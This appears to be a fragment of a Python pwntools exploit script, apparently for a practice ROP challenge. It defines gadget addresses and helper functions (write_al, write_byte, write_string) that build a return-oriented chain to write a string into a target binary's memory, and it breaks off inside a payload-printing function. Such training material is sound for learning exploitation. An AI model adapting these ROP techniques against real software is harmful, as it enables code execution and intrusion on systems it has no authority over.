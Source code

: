 ```Python

xlatb_gaget	    = p64(0x0400628)
# 0400610: mov eax, 0; pop rbp; ret;
null_eax_gaget	    = p64(0x0400610)
def write_al(location):
	returnPayload  = null_eax_gaget
	returnPayload += new_bp
	returnPayload += pop_rbx(location)
	returnPayload += xlatb_gaget

	return returnPayload

elf = ELF(target)
def find_byte(c):
	return next(elf.search(c))


pop_rdi_gaget = p64(0x04006a3)
def pop_rdi(val):
	returnPayload = pop_rdi_gaget
	returnPayload += p64(val)
	return returnPayload


# stosb byte ptr [rdi], al; ret;
stosb_gaget = p64(0x0400639)


rdi_set = False

def write_byte(dest, c):
	byte_loc = find_byte(c)
	
	# place the value in byte_loc into al
	returnPayload  = write_al(byte_loc)
	global rdi_set
	if not rdi_set:
		returnPayload += pop_rdi(dest)
		rdi_set = True
	returnPayload += stosb_gaget
	return returnPayload



def write_string(destination, string):
	dest = destination
	returnPayload = b""
	global rdi_set 
	rdi_set= False
	for i in range(len(string)):
		returnPayload += write_byte(dest, string[i])
		dest += 1
	
	return returnPayload

"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
	for i in range(0, len(payload), 8):
```